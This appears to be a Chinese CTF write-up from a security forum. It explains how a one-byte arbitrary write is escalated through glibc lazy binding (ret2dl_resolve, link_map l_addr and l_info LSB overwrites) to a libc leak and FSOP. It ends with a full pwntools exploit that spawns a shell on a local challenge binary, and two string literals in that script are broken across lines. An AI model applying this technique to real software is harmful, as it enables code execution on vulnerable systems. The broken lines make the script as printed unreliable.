# 单字节延迟绑定实现rop-先知社区

> **来源**: https://xz.aliyun.com/news/17336  
> **文章ID**: 17336

---

# 单字节延迟绑定实现rop

之前遇到过一个有意思的题目，在只有一个字节的情况下，利用延迟绑定机制，最终实现shell或者orw，记录一下，便于后续复习

## **题目分析**

先看一下保护措施



题目反汇编代码大概是这个样子，稍微重命名了一下



题目还给了一个txt文件



可能是想让大家知道，malloc申请这个大小的堆块是会贴着libc，然后输入偏移量，输入数据，相当于任意地址写一个字节的数据，毕竟是贴着libc，我们也完全是有偏移的，这一点很容易想到，但是当时比赛完全想不到怎么利用，想过各种hook，但是一个字节实在是太少了，什么都不够做的。

仔细观察可以发现



main函数里面其实只有一个exit，而我们的漏洞函数，暂且就重命名为vuln函数



这个函数其实是在init函数里面被调用，而如果了解基础知识，应该是知道我们的init函数其实是位于start函数



start函数里面调用mian函数，而其实mian函数的调用是在后面的函数之后，也就是说，程序在启动的时候是先进行init函数调用的，那这有什么用呢，我们暂且放下这一个知识点，来介绍一些别的

### ret2dl\_reslove

这其实算是一个高级栈知识，而事实上，在堆里面的house of banana就是以这个为基础的，我们以64位程序为例

延迟绑定基础简略来说，就是函数第一次调用的时候，程序先通过plt表，检索到got表，got表会寻找函数真实地址并写入got表当中，而第二次及以后的函数调用，则是从plt到got再直接去真实地址，中间会略过寻找的过程，而我们现在要做的，就是把这个过程展开说

我们来看看调用write函数



第一次调用的时候，程序会call这个函数的plt表

我们可以很轻易的发现，plt里面会有一个jmp语句

这个位置正是got表



后续会调用到*dl\_runtime\_resolve\_xsavec，而这个函数里面，又会调用到*dl\_fixup函数



这个函数就很有意思了



```
_dl_fixup(truct link_map *l, ElfW(Word) reloc_arg) {
    // 获取符号表地址
    const ElfW(Sym) *const symtab = (const void *) D_PTR (l, l_info[DT_SYMTAB]);
    // 获取字符串表地址
    const char *strtab = (const void *) D_PTR (l, l_info[DT_STRTAB]);
    // 获取函数对应的重定位表结构地址，sizeof (PLTREL) 即 Elf*_Rel 的大小。
    #define reloc_offset reloc_arg * sizeof (PLTREL)
    const PLTREL *const reloc = (const void *) (D_PTR (l, l_info[DT_JMPREL]) + reloc_offset);
    // 获取函数对应的符号表结构地址
    const ElfW(Sym) *sym = &symtab[ELFW(R_SYM) (reloc->r_info)];
    // 得到函数对应的got地址，即真实函数地址要填回的地址
    void *const rel_addr = (void *) (l->l_addr + reloc->r_offset);
    lookup_t result;
    DL_FIXUP_VALUE_TYPE value;
 
    // 判断重定位表的类型，必须要为 ELF_MACHINE_JMP_SLOT(7)
    assert (ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT);
 
    /* Look up the target symbol.  If the normal lookup rules are not
       used don't look in the global scope.  */
    // ☆ 关键判断，决定目标函数地址的查找方法。☆
    if (__builtin_expect(ELFW(ST_VISIBILITY) (sym->st_other), 0) == 0) {
        const struct r_found_version *version = NULL;
 
        if (l->l_info[VERSYMIDX (DT_VERSYM)] != NULL) {
            const ElfW(Half) *vernum = (const void *) D_PTR (l, l_info[VERSYMIDX(DT_VERSYM)]);
            ElfW(Half) ndx = vernum[ELFW(R_SYM) (reloc->r_info)] & 0x7fff;
            version = &l->l_versions[ndx];
            if (version->hash == 0)
                version = NULL;
        }
 
        /* We need to keep the scope around so do some locking.  This is
       not necessary for objects which cannot be unloaded or when
       we are not using any threads (yet).  */
        int flags = DL_LOOKUP_ADD_DEPENDENCY;
        if (!RTLD_SINGLE_THREAD_P) {
            THREAD_GSCOPE_SET_FLAG ();
            flags |= DL_LOOKUP_GSCOPE_LOCK;
        }
 
#ifdef RTLD_ENABLE_FOREIGN_CALL
        RTLD_ENABLE_FOREIGN_CALL;
#endif
        // 查找目标函数地址
        // result 为 libc 的 link_map ，其中有 libc 的基地址。
        // sym 指针指向 libc 中目标函数对应的符号表，其中有目标函数在 libc 中的偏移。
        result = _dl_lookup_symbol_x(strtab + sym->st_name, l, &sym, l->l_scope,
                                     version, ELF_RTYPE_CLASS_PLT, flags, NULL);
 
        /* We are done with the global scope.  */
        if (!RTLD_SINGLE_THREAD_P)
            THREAD_GSCOPE_RESET_FLAG ();
 
#ifdef RTLD_FINALIZE_FOREIGN_CALL
        RTLD_FINALIZE_FOREIGN_CALL;
#endif
 
        /* Currently result contains the base load address (or link map)
       of the object that defines sym.  Now add in the symbol
       offset.  */
        // 基址 + 偏移算出目标函数地址 value
        value = DL_FIXUP_MAKE_VALUE (result, sym ? (LOOKUP_VALUE_ADDRESS(result) + sym->st_value) : 0);
    } else {
        /* We already found the symbol.  The module (and therefore its load
       address) is also known.  */
        // 这里认为 link_map 和 sym 中已经是目标函数的信息了，因此直接计算目标函数地址。
        value = DL_FIXUP_MAKE_VALUE (l, l->l_addr + sym->st_value);
        result = l;
    }
 
    /* And now perhaps the relocation addend.  */
    value = elf_machine_plt_value(l, reloc, value);
 
    if (sym != NULL
        && __builtin_expect(ELFW(ST_TYPE) (sym->st_info) == STT_GNU_IFUNC, 0))
        value = elf_ifunc_invoke(DL_FIXUP_VALUE_ADDR (value));
 
    /* Finally, fix up the plt itself.  */
    if (__glibc_unlikely (GLRO(dl_bind_not)))
        return value;
    // 更新 got 表
    return elf_machine_fixup_plt(l, result, reloc, rel_addr, value);
}
```

在源码里面涉及到很多结构体

```
/* Dynamic section entry.  */
 
typedef struct
{
  Elf32_Sword   d_tag;          /* Dynamic entry type */
  union
    {
      Elf32_Word d_val;         /* Integer value */
      Elf32_Addr d_ptr;         /* Address value */
    } d_un;
} Elf32_Dyn;
 
typedef struct
{
  Elf64_Sxword  d_tag;          /* Dynamic entry type */
  union
    {
      Elf64_Xword d_val;        /* Integer value */
      Elf64_Addr d_ptr;         /* Address value */
    } d_un;
} Elf64_Dyn;
```

Dyn 结构体用于描述动态链接时需要使用到的信息，其成员含义如下：

* d\_tag 表示标记值，指明了该结构体的具体类型。比如，DT\_NEEDED 表示需要链接的库名，DT\_PLTRELSZ 表示 PLT 重定位表的大小等。
* d\_un是一个联合体，用于存储不同类型的信息。具体含义取决于d\_tag的值。

* 如果 d\_tag 的值是一个整数类型，则用 d\_val 存储它的值。
* 如果 d\_tag 的值是一个指针类型，则用 d\_ptr 存储它的值。

```
/* Symbol table entry.  */
 
typedef struct
{
  Elf32_Word    st_name;        /* Symbol name (string tbl index) */
  Elf32_Addr    st_value;       /* Symbol value */
  Elf32_Word    st_size;        /* Symbol size */
  unsigned char st_info;        /* Symbol type and binding */
  unsigned char st_other;       /* Symbol visibility */
  Elf32_Section st_shndx;       /* Section index */
} Elf32_Sym;
 
typedef struct
{
  Elf64_Word    st_name;        /* Symbol name (string tbl index) */
  unsigned char st_info;        /* Symbol type and binding */
  unsigned char st_other;       /* Symbol visibility */
  Elf64_Section st_shndx;       /* Section index */
  Elf64_Addr    st_value;       /* Symbol value */
  Elf64_Xword   st_size;        /* Symbol size */
} Elf64_Sym;
```

Sym 结构体用于描述 ELF 文件中的符号（Symbol）信息，其成员含义如下：

* st\_name：指向一个存储符号名称的字符串表的索引，即**字符串相对于字符串表起始地址的偏移**。
* st\_info：如果 **st\_other** **为 0** 则设置成 0x12 即可。
* st\_other：决定**函数参数**link\_map 参数是否有效。如果该值不为 0 则直接通过 link\_map 中的信息计算出目标函数地址。否则需要调用 \_dl\_lookup\_symbol\_x 函数查询出新的 link\_map 和 sym 来计算目标函数地址。
* st\_value：符号地址相对于模块基址的偏移值。

```
/* Relocation table entry without addend (in section of type SHT_REL).  */
 
typedef struct
{
  Elf32_Addr    r_offset;       /* Address */
  Elf32_Word    r_info;         /* Relocation type and symbol index */
} Elf32_Rel;
 
/* I have seen two different definitions of the Elf64_Rel and
   Elf64_Rela structures, so we'll leave them out until Novell (or
   whoever) gets their act together.  */
/* The following, at least, is used on Sparc v9, MIPS, and Alpha.  */
 
typedef struct
{
  Elf64_Addr    r_offset;       /* Address */
  Elf64_Xword   r_info;         /* Relocation type and symbol index */
} Elf64_Rel;
```

Rel 结构体用于描述重定位（Relocation）信息，其成员含义如下：

* r\_offset：加上**传入的参数**link\_map->l\_addr 等于该函数对应 got 表地址。
* r\_info ：符号索引的低 8 位（32 位 ELF）或低 32 位（64 位 ELF）指示符号的类型这里设为 7 即可，高 24 位（32 位 ELF）或高 32 位（64 位 ELF）指示符号的索引即 Sym 构造的数组中的索引。

```
struct link_map
  {
    ElfW(Addr) l_addr;      /* Difference between the address in the ELF
                   file and the addresses in memory.  */
    ...
    ElfW(Dyn) *l_info[DT_NUM + DT_THISPROCNUM + DT_VERSIONTAGNUM
              + DT_EXTRANUM + DT_VALNUM + DT_ADDRNUM];
```

link\_map 是存储目标函数查询结果的一个结构体，我们主要关心 l\_addr 和 l\_info 两个成员即可。

* l\_addr：目标函数所在 lib 的基址。
* l\_info：Dyn结构体指针，指向各种结构对应的Dyn。

* l\_info[DT\_STRTAB]：即 l\_info 数组第 5 项，指向 .dynstr 对应的 Dyn 。
* l\_info[DT\_SYMTAB]：即 l\_info 数组第 6 项，指向 Sym 对应的 Dyn 。
* l\_info[DT\_JMPREL]：即 l\_info 数组第 23 项，指向 Rel 对应的 Dyn 。

视线回到 \_dl\_fixup函数，重点关注这句话

if (\_\_builtin\_expect(ELFW(ST\_VISIBILITY) (sym->st\_other), 0) == 0)

根据这个判断决定了重定位的策略。\_dl\_fixup 函数在计算出目标函数地址并更新 got 表之后会回到 \_dl\_runtime\_resolve 函数，之后 \_dl\_runtime\_resolve 函数会**调用目标函数**。



大概是这样的

* 用 link\_map 访问 .dynamic ，取出 .dynstr ， .dynsym ， .rel.plt 的指针。
* .rel.plt + 第二个参数 求出当前函数的重定位表项 Elf32\_Rel 的指针，记作 rel 。
* rel->r\_info >> 8 作为 .dynsym 的下标，求出当前函数的符号表项 Elf32\_Sym 的指针，记作 sym 。
* .dynstr + sym->st\_name 得出符号名字符串指针。
* 在动态链接库查找这个函数的地址，并且把地址赋值给 \*rel->r\_offset ，即 GOT 表。
* 调用这个函数。

改写 .dynamic 的 DT\_STRTAB

这个只有在 checksec 时 NO RELRO 可行，即 .dynamic 可写。因为 ret2dl-resolve 会从 .dynamic 里面拿 .dynstr 字符串表的指针，然后加上 offset 取得函数名并且在动态链接库中搜索这个函数名，然后调用。而假如说我们能够改写这个指针到一块我们能够操纵的内存空间，当 resolve 的时候，就能 resolve 成我们所指定的任意库函数。

操纵第二个参数，使其指向我们所构造的 Rel

由于 \_dl\_runtime\_resolve 函数各种按下标取值的操作都没有进行越界检查，因此如果 .dynamic 不可写就操纵 \_dl\_runtime\_resolve 函数的第二个参数，使其访问到可控的内存，然后在该内存中伪造 .rel.plt ，进一步可以伪造 .dynsym 和 .dynstr ，最终调用目标函数。

而上述的这些就是我们的ret2dl\_reslove攻击方式

了解这些有什么用呢，上述循环存在exit函数，而这个函数在程序开始并没有被调用，刚好我们的got表可写，我们又知道，got表回填地址，是通过link\_map->l\_addr来确定的，那如果我们把write的回填改到exit，exit调用就不在是退出，而我们init函数里面又是循环，而且由于write并没有被正确填写，每一次都会执行一次延迟绑定，这就意味这我们可以循环写入数据，这比正常一字节要好太多了。

## **exp编写**

### 改写exit

那么首先，我们需要完成这个改写exit的操作，那第一步就是找link map相对于libc的偏移量，事实上这个数据并不好找，它其实位于ld文件里面，而在缺失符号表的情况下，找到它就更加艰难了，只能硬解析，从偏移出发，在\_rtld\_global里面找的对应偏移的位置（演示为2.35的环境）



里面的ns\_loaded段指向的就是link map，我这里是0x7ffff7ffe2e0，我们需要修改link\_map->l\_addr，



把这个数据改成exit的got表与write的got表的偏移



计算写入位置和link map的偏移，我们就能写出如下代码

```
link_map_py = 0x2c92d0
def write(py, con):
    io.send(p64(py))
    io.send(p8(con))
    io.recv()
write(link_map_py,elf.got['_Exit']-elf.got['write'])
```

我们来看看写入情况



在执行完\_dl\_runtime\_resolve\_xsavec函数之后，我们来看看got表



我们可以神奇的发现，write的got并没有被写入，反而写到exit上面了，那这样的话，我们就不会exit，而由于write也没有正确写入，每次都会重新覆写寻找

再之后的思路就比较简单了，我们覆写stdout去泄露libc

### 泄露libc

通过无限次修改，改stdout的flag字段和write指针，就可以在调用write的时候触发io，泄露libc出来，可是我们一开始看的时候，会发现里面是空的



原因也很简单，我们需要刷新一次stdout，不然是不会存在libc的，所以我们可以通过修改\_IO\_flush\_all进行刷新，那这怎么办呢，上面讲dlreslove的时候介绍过，索引函数的时候会根据函数名来定位，那么我们便可以去伪造这一部分

可能前面那一段有些师傅是跳着看的，所以这里我再写一下

如果你了解过 **"House Of Blindness"** 的分析文章，会知道通过 **修改 Elf64\_Dyn 指针的最低有效字节（LSB）**，可以让程序从 **可写的内存区域（而非只读的二进制文件）** 中读取关键资源（如符号表、字符串表等）。

**关键结构解析**

1. **l\_info** **数组**:

* l\_info 是一个紧凑的指针数组，每个指针指向 .dynamic 段中的一个 Elf64\_Dyn 结构体。
* 通过覆盖 l\_info 中某个指针的最低有效字节（LSB），可以改变其指向的Elf64\_Dyn。例如：

* 将 l\_info[DT\_SYMTAB]（符号表指针）的 LSB 改为 0x78，使其指向 DT\_STRTAB（字符串表）对应的 Elf64\_Dyn。

**利用核心：劫持** **DT\_DEBUG** **与** **\_r\_debug**

1. **DT\_DEBUG** **的特殊性**:

* DT\_DEBUG 对应的 Elf64\_Dyn 中存储了一个指针 **\_r\_debug**，该指针位于 **动态链接器（ld.so）的可写内存区域**。
* 由于 \_r\_debug 所在内存可写，我们可以 **伪造任意的** **Elf64\_Dyn** **值**！

2. **攻击流程**:

* 通过 LSB 覆盖，使 l\_info 中的某个条目（如 DT\_SYMTAB）指向 DT\_DEBUG。
* 此时，程序会从 \_r\_debug 指向的可写内存中读取伪造的 Elf64\_Dyn 结构。
* 例如：将 **字符串表（DT\_STRTAB）的地址** 篡改为指向 \_r\_debug，并在此区域伪造字符串 "system"。
* 当 \_dl\_fixup 尝试解析符号时，会读取伪造的字符串，从而将函数调用重定向到 system。

所以我们现在可以修改l\_info[DT\_SYMTAB]（符号表指针）的 LSB ，修改到DT\_DEBUG，而提前在DT\_DEBUG里面写上\_IO\_flush\_all字符串，这样的话，解析别的函数的时候就会触发io刷新，所以现在问题就是，怎么找这些数据，还是使用gdb，我们先找到r\_debug的地址



然后将其转换为 struct r\_debug \* 并访问 r\_map，

pwndbg> p/x ((struct r\_debug \*)0x7ffff7ffe118)->r\_map

将上一步得到的r\_map地址转换为 struct link\_map \*，并访问其 l\_info[6]

pwndbg> p/x ((struct link\_map \*)0x7ffff7ffe2d0)->l\_info[5]

当然也可以一步完成

```
pwndbg> p/x ((struct link_map *)((struct r_debug *)0x7ffff7ffe118)->r_map)->l_info[5]
pwndbg> p &((struct link_map *)0x7ffff7ffe2e0)->l_info[5]
```



像这样我两次得到的地址也是相同的，至于为什么是5，这是因为在GDB中直接使用DT\_SYMTAB符号可能会未定义错误，因为它属于动态链接器的内部定义（需加载相关符号），而在ELF标准中，DT\_SYMTAB的值为5。直接替换数值即可，这样我们就找到l\_info[DT\_SYMTAB]的地址了，里面存放的地址就是0x5开头的这个数据，我们要做的就是把这个里面的地址修改成DT\_DEBUG的地址，现在第二个问题来了，DT\_DEBUG的地址怎么办，DT\_DEBUG 是 .dynamic 段中的一个独立条目，**不在** **l\_info** **数组中**。所以我们需要通过遍历 .dynamic 段找到它。

当然其实并不需要这么麻烦，我们可以从已知的 DT\_SYMTAB 地址附近开始搜索



这个前面为0x15的，就是DT\_DEBUG地址，那也就是说，我们只要修改



这个7e78为7eb8即可，其实也就是一个字节，当我们完成修改之后，我们可以调试看看什么情况



我们重点关注一下\_r\_debug的地址



在write函数进去，最终会进入\_dl\_lookup\_symbol\_x函数（其实名字就能看出来是和解析符号表有关系的）



注意看这一行，上面关注过\_r\_debug的地址，rdi的值就是r\_debug加上0x3e，而我们把修改语句去掉可以对比看看



在没有修改之前，这里是一个elf文件地址，并且不可写，这个地址正是l\_info[DT\_SYMTAB]，所以在修改成一个libc地址之后，我们又可以对libc进行修改，这样就可以在这里填上字符串，而在把rdi伪造成字符串地址也是有原因的，因为\_dl\_lookup\_symbol\_x函数的第一个参数就是待查找函数的函数名，也就是rdi

那接下来就应该在r\_debug加上0x3e的位置写上\_IO\_flush\_all（这个是修改前伪造，这样下一次修改完直接就运行到这个函数了，不然因为本来加0x3e的位置是空的，程序解析不了，会报错退出）



可以看到，我们解析的函数名就变成了\_IO\_flush\_all，而调用write就会变成调用IO\_flush\_all，但是运行结束后依然没有libc地址在stdout上面，其实是因为需要提前布置一下flag字段和write的指针，把flag改成0xfbad3887，IO\_write\_ptr改成0xff，这里解释一下为什么，虽然大家io都挺了解的，但是这个参数用的确实少

0x3887 = 0011 1000 1000 0111 (二进制)

* **\_IO\_USER\_BUF (0x0001)**：用户分配的缓冲区。
* **\_IO\_UNBUFFERED (0x0002)**：无缓冲模式（直接写入）。
* **\_IO\_NO\_READS (0x0004)**：禁止读操作（stdout仅用于写）。
* **\_IO\_LINKED (0x0080)**：结构体在全局文件链表中。
* **\_IO\_CURRENTLY\_PUTTING (0x0800)**：当前正在写入数据。
* **\_IO\_IS\_APPENDING (0x1000)**：以追加模式打开。

这意味着当前 stdout 处于 **全缓冲模式**，会刷新自己



可以看到，我们已经把对应libc的地址写到io里面了，然后就正常去修改结构体泄露



短期总结一下

```
stdout = 0x25F770
write(link_map_py, elf.got["_Exit"] - elf.got["write"])
write_all(stdout, p32(0xFBAD3887))
write(stdout + 0x28, 0xFF)  # _IO_write_ptr
write_all(0x2C9108 + 0x3E, b"_IO_flush_all\x00")  # r_debug+0x3e
write(0x2C9338, 0xB8)  # l_info[DT_SYMTAB]-> DT_DEBUG
write_all(stdout, p32(0xFBAD1800))
io.recv()
write(stdout + 0x20, 0x00)  # _IO_write_base
write(stdout + 0x28, 0xFF)  # _IO_write_ptr
dbg()
io.recv(0x60)
libc.address = u64(io.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00")) - 0x21B6A0
info("libc base: " + hex(libc.address))
io.interactive()
```

### 伪造io结构体

有了libc，有了任意地址写，怎么打其实都行，这题最开始是2.31的环境，只不过我是2.35，就用io进行攻击好了，直接改io\_list\_all，就到这个大堆块上面，不过由于我们一次只能写一个字节，所以我们要先把write改回来，这样改完字节之后不会出问题

write(0x2C9338, 0x78)



这样就改好了，现在要做的就是伪造结构体，这一部分不再多说，直接套公式都行（严格来说，并非伪造，而是直接在上面改）

这里直接给出最后完整的exp

```
from pwn import *

# context.terminal = ["tmux", "split", "-h"]
context(log_level="debug", arch="amd64", os="linux")
io = process("./pwn")
elf = ELF("./pwn")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

link_map_py = 0x2C92D0


def dbg():
    gdb.attach(io)


def write(py, con):
    io.send(p64(py))
    io.send(p8(con))


def write_all(offset, date):
    for i, byte in enumerate(date):
        io.send(p64(offset + i))
        io.send(p8(byte))

stdout = 0x25F770
io_list_all = 0x25F670
write(link_map_py, elf.got["_Exit"] - elf.got["write"])
write_all(stdout, p32(0xFBAD3887))
write(stdout + 0x28, 0xFF)  # _IO_write_ptr
write_all(0x2C9108 + 0x3E, b"_IO_flush_all\x00")  # r_debug+0x3e
write(0x2C9338, 0xB8)  # l_info[DT_SYMTAB]-> DT_DEBUG
write_all(stdout, p32(0xFBAD1800))
io.recv()
write(stdout + 0x20, 0x00)  # _IO_write_base
write(stdout + 0x28, 0xFF)  # _IO_write_ptr

io.recv(0x60)
libc.address = u64(io.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00")) - 0x21B6A0
info("libc base: " + hex(libc.address))

write(0x2C9338, 0x78)

file_addr = libc.sym["_IO_2_1_stdout_"]


fake_file = b""
fake_file += p64(0)  # _IO_read_end
fake_file += p64(0)  # _IO_read_base
fake_file += p64(0)  # _IO_write_base
fake_file += p64(1)  # _IO_write_ptr
fake_file += p64(0)  # _IO_write_end
fake_file += p64(0)  # _IO_buf_base;
fake_file += p64(0)  # _IO_buf_end
fake_file += p64(0) * 4  # from _IO_save_base to _markers
fake_file += p64(libc.sym["system"])  # 调用位置
fake_file += p32(2)  # _fileno for stderr is 2
fake_file += p32(0)  # _flags2, usually 0
fake_file += p64(next(libc.search(b"/bin/sh")))  # 参数
fake_file += p16(1)  # _cur_column
fake_file += b"\x00"  # _vtable_offset
fake_file += b"
"  # _shortbuf[1]
fake_file += p32(0)  # padding
fake_file += p64(libc.sym["_IO_2_1_stdout_"] + 0x1EA0)  # _IO_stdfile_1_lock
fake_file += p64(0xFFFFFFFFFFFFFFFF)  # _offset
fake_file += p64(0)  # _codecvt
fake_file += p64(0)  # _IO_wide_data_1
fake_file += p64(0) * 3  # from _freeres_list to __pad5
fake_file += p32(0xFFFFFFFF)  # _mode
fake_file += b"\x00" * 19  # _unused2
fake_file = fake_file.ljust(0xD8 - 0x10, b"\x00")
fake_file += p64(libc.address + 0x2173C0 + 0x20)
fake_file += p64(file_addr + 0x30)

write_all(stdout + 0x10, fake_file)
print(hex(file_addr))
dbg()
#gdb.attach(io, "b _obstack_newchunk
c")
write(0x2C9338, 0xB8)

io.interactive()
```



这样就拿到shell了，至于orw，和io的orw操作相同，这里不再赘述
